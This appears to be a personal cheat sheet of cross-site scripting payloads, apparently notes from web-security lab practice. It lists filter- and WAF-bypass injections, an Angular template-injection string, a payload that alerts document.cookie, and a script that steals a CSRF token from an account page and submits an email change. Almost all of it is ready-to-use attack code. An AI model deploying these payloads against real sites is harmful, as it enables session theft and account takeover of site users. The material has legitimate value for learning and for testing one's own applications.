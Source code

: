 ```yaml
---
title: Cross Site Scripting ( XSS )
tags:
  - payload
  - infosec
---
```

1. Unique scripts which used to bypass specify situations
```javascript
onmouseover="alert('xss')
"><svg onload="alert('xss')">
<img src=# onerror='alert(1)'>
javascript:alert('xss')
'-alert(document.domain)-'
';alert(document.domain)//
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

2. DOM XSS with Angular expression
```javascript
{{constructor.constructor('alert(1)')()}}
```

3. Arithmetic operator with JS –> Cause Reflected DOM XSS
```javascript
\"-alert(1)}//
```

4. Stored DOM XSS bypass the encode bracket
```javascript
<><img src=1 onerror=alert(1)>
```

5. Script for executing CSRF Form for XSS by using token CSRF
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

6. Tip for causing XSS with block by WAF (web applications firewall)
- Brute force to find the tag can available
- Try to execute attribute with tag available
- And force the website do the event –> Execute the XSS  
	Example: `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>`

7. If on situation the server block all of tag can inject into the code –> we need to create them own like `<xss>`
```javascript
<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x
```

8. Payload can help you filter xss via press event by key button to causing the reflect
```javascript
%27accesskey=%27x%27onclick=%27alert(1)
```

9. If some case study like they add black splash `/` after you input that with quote so with causing reflect xss using close tag for `</script>` for ignore that situation and after that causing payload
```javascript
<\script><script>alert(1)<\script>
```
